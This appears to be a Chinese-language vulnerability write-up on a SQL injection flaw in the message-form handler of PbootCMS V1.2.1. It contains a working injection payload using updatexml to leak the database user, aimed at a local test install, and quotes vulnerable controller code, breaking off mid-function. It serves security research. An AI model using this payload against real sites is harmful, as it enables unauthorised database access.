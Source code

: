 PbootCMS sql注入
================

0x01 前台home模块注入漏洞
-------------------------

0x01.1 在线留言处insert sql注入
-------------------------------

### 0x01.1.2 漏洞演示

注：我本地测试的所以我把验证验证码那一步关闭了=-=，实战中请自己加上验证码

![](resource/PbootCMSsql注入/media/rId24.png)

    url:http://127.0.0.1/cms/PbootCMS-V1.2.1/index.php/Message/add
    post:
        contacts[content`,`create_time`,`update_time`) VALUES ('1', '1' ,1 and updatexml(1,concat(0x3a,user()),1) );-- a] = 1111
        content = 1111
        mobile = 1111

![](resource/PbootCMSsql注入/media/rId25.png)

### 0x01.1.2 漏洞解读

路径：PbootCMS-V1.2.1\\apps\\home\\controller\\MessageController.php
方法：add(

    // 留言新增
        public function add()
        {
            if ($_POST) {

                if (time() - session('lastsub') < 10) {
                    alert_back('您提交太频繁了，请稍后再试！');
                }

                // 验证码验证
                $checkcode = post('checkcode');
                if ($this->config('message_check_code')) {
                    // if (! $checkcode) {
                    //     alert_back('验证码不能为空！');
                    // }

                    if ($checkcode != session('checkcode')) {
                        alert_back('验证码错误！');
                    }
                }

                // 读取字段
                if (! $form = $this->model->getFormField(1)) {
                    alert_back('留言表单不存在任何字段，请核对后重试！');
                }
